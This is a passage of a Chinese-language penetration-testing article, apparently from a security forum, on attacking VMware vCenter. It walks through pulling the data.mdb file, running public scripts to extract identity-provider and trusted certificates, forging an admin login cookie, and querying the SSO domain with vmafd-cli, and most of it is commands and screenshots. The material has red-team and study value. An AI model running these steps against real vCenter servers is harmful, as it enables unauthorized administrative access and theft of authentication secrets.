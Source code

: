 ![image-20220824120811883.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-6661eb592e614bb7eb227a04ce148565e50975f9.png)  
使用小饼干替换cookie，成功登录  
![image-20220824134338223.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-79bdcc7a3b6f83fd6c4788e334534b26c9f9b266.png)  
windows运行脚本需要安装对应版本的python-ldap

```php
https://www.lfd.uci.edu/~gohlke/pythonlibs/#python-ldap1
pip install python_ldap-3.4.0-cp38-cp38-win_amd64.whl
pip install -r requirements.txt
```

![image-20220824120857075.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-2ad5d2d3125ce692197ced645d3df4660d7b8145.png)  
![image-20220824120622726.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d96ab1b0e22d1725d2cd3455ed2a937d1ed27b00.png)  
实际测试过程中发现windows的data.mdb文件过大，拉回来不是那么方便，适合Linux机器

![image-20220824114156587.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-250de43c99725ca4f12afe30a57e4a350b67ed07.png)  
这时候如果目标机器上装有python环境，可使用3gstudent师傅的脚本进行利用

[https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter\_ExtraCertFromMdb.py](https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter_ExtraCertFromMdb.py)

```php
python vCenter_ExtraCertFromMdb.py data.mdb
```

![image-20220829120100199.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-4619bf0737ffdd59d73a223ba385b0a3cf835504.png)

运行脚本会生成三段证书文件，放置到相应的位置

[https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter\_GenerateLoginCookie.py](https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter_GenerateLoginCookie.py)

```php
python vCenter_GenerateLoginCookie.py 192.168.121.135 192.168.121.135 vsphere.local idp_cert.txt trusted_cert_1.txt trusted_cert_2.txt
```

![image-20220829142148838.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-202ffc37ef1c16616eb80800a3afbf4933f0b177.png)

不重置获取密码（ESXI）
-------------

查看域

```php
#Linux
/usr/lib/vmware-vmafd/bin/vmafd-cli get-domain-name --server-name localhost

#windows
C:\Program Files\VMware\vCenter Server\vmafdd\vmafd-cli get-domain-name --server-name localhost
C:\PROGRA~1\VMware\"vCenter Server"\vmafdd\vmafd-cli get-domain-name --server-name localhost
```

坑点：由于路径中间存在空格，导致识别不了
